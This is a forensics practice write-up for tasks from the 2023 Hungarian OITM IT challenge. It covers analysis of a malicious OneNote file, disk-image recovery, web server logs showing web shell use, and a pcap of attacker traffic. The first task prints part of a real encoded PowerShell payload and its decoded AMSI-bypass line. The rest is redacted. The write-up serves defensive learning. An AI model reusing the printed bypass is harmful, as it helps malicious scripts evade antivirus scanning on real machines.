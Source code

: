 OITM is the Hungarian acronym for National IT Challenge.

I'm interested in several categories such as:
 - Cyber Security
 - IT Security
 - Networking

Firstly I'll cover some of the tasks from the '23 batch as a practice. 

## Task 1 in the IT Security category: 
Password protected zip file, with .one file. Malware in hidden in the file. 
The tasks are: 
Find out the malicious script language
What tool was used for creating the malware
What is the C2 IP address


the first few commands to get started were:
   ```
   35  unzip ./malware.zip
   36  ls
   37  file Secret\ file.one
   38  strings Secret\ file.one | more
```

 as usual, the output is mostly gibberish, however some interesting lines can be found:
 ```1'%Fy
*\uz
PiM|
Secret file
Tuesday, August 29, 2023
4:14 PM
ma9@
Secret file
Tuesday, August 29, 2023
4:14 PM
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBpAG8AbgBUAGEAYgBsAGUALgBQAFMAVgBlAHIAcwBpAG8AbgAuAE0AYQBq
AG8AcgAgAC0AZwBlACAAMwApAHsAJABSAGUAZgA9AFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQA
ZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAOwAkAFIAZQBmAC4ARwBl
AHQARgBpAGUAbABkACgAJwBhAG0AcwB
```

took this encoded part, I guess Base64 for encoding, which turned out to be correct:

```
└─$ base64 -d ./decode.txt  
If($PSVersionTable.PSVersion.Major -ge 3){$Ref=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');$Ref.GetField('amsiInitFailed','NonPublic,Static').Setvalue($Null,$true);

[redacted]                                                                                                                
```

I had to remove the rest of the file output as it was flagged by Windows Defender. 
However, this also revealed the malware name, type, etc:
https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=Trojan:PowerShell/Fleisnam.A&ThreatID=2147742186

And since it seems to be a legit malware without being defanged, I ran the sha256sum of the .one file on virustotal, to find out more about the malware. 


Also parsed the output into GPT, revealing the answers, as the IP, etc were hardcoded into the encoded script section. 

Combining the knowledge from VT, the decoded script and some researching revealed all the task objectives. 

## Task 2 in the IT Security category: 

IT forensics task with a .img file. 
The objectives of the task are:
Find out the formatting of the image file
What tools can be used to investigate the file
Reveal deleted or fragmented files on the disk
Is it trivial to crack the password protecting the recovered files. 

Let's begin,

```
└─$ file disk.img 
disk.img: DOS/MBR boot sector, code offset 0x58+2, OEM-ID "MSDOS5.0", sectors/cluster 8, reserved sectors 4110, Media descriptor 0xf8, sectors/track 63, heads 128, hidden sectors 1, sectors 2097152 (volumes > 32 MB), FAT (32 bit), sectors/FAT 2041, serial number 0x52d21f13, unlabeled
```
```
└─$ binwalk disk.img        

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
4221052       0x40687C        PNG image, 32 x 32, 8-bit/color RGBA, non-interlaced
4237980       0x40AA9C        PNG image, 2390 x 381, 8-bit/color RGBA, non-interlaced
4313103       0x41D00F        OpenSSH RSA1 private key, version "zaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBtV5FUEi"
4316477       0x41DD3D        Ubiquiti firmware header, third party, ~CRC32: 0x0, version: "SSH PRIVATE KEY-----"
```
now this already reveals some answers, however, photorec was a possible answer for the question regarding tools, so I decided to install it and investigate the file using it. 
The tool is extremely intuitive, within minutes I managed to locate a deleted file and copy it to my working folder. The file deleted was an RSA OpenSSH private key. 

This concluded the second task as all objectives were completed using the file recovery tool. 

### Task 3 in the IT Security category: 

In this task we are investigating webserver logs. 
The objectives are to find out the answer to these questions:
What was the malicious file uploaded to the ftp server.
What was the first remote command the attacker used.
What was the reverse shell port?

The two files we can work with:

```
└─$ unzip logs.zip                         
Archive:  logs.zip
             inflating: access.log              
             inflating: vsftpd.log  
```

We can see several uploads via the vsftpd.log file, however, if we cross-reference it with the access log, some interesting patterns approach. The shell.php file has been used maliciously a few times. 

to answer the second question, I looked for interactions from the known malicious IP:

```

$ cat access.log | grep "10.10.60.1" -C 1 -n -w
3406-10.10.50.63 - - [30/Aug/2023:09:51:43 +0200] "GET /quote HTTP/1.1" 404 433 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 Edg/116.0.1938.62"
3407:10.10.60.1 - - [30/Aug/2023:10:00:43 +0200] "GET /shell.php HTTP/1.1" 200 203 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 Edg/116.0.1938.62"
3408:10.10.60.1 - - [30/Aug/2023:10:00:43 +0200] "GET /favicon.ico HTTP/1.1" 404 488 "http://10.10.60.2/shell.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 Edg/116.0.1938.62"
3409-10.10.60.15 - - [30/Aug/2023:10:01:00 +0200] "GET / HTTP/1.1" 200 3324 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0"
--
6156-10.10.50.7 - - [30/Aug/2023:10:01:01 +0200] "GET /astrology HTTP/1.1" 404 433 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36"
6157:10.10.60.1 - - [30/Aug/2023:10:01:05 +0200] "GET /shell.php?cmd=id HTTP/1.1" 200 203 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 Edg/116.0.1938.62"
6158-10.10.50.7 - - [30/Aug/2023:10:11:34 +0200] "GET / HTTP/1.1" 200 3324 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36"

```

this simple search answers all of our questions. 

### Task 4 in the IT Security category: 

Our task is to analyse a .pcap file. 

First challenge: find out what cloud provider was used by the attackers.

I tried to be clever here by using `tshark` and `grep` but looking for Azure, GCP and AWS resulted in several hits, without providing any insight if the frames were malicious. 
```
└─$ tshark -r traffic.pcap -Y "frame contains \"aws\" or frame contains \"azure\" or frame contains \"gcp\"" | grep -E "aws|azure|gcp"  
```

after manually scrolling through the traffic I found some retransmissions, but nothing to follow-up on. Then, a familiar number: 10.10.60.1 in frame 3302
```
3302	15.097828	10.10.60.1	34.159.33.139	HTTP	209	GET /get_xor_key HTTP/1.1 
```

HTTP traffic is always interesting, especially when:
```
[Full request URI: http://34.159.33.139/get_xor_key]
```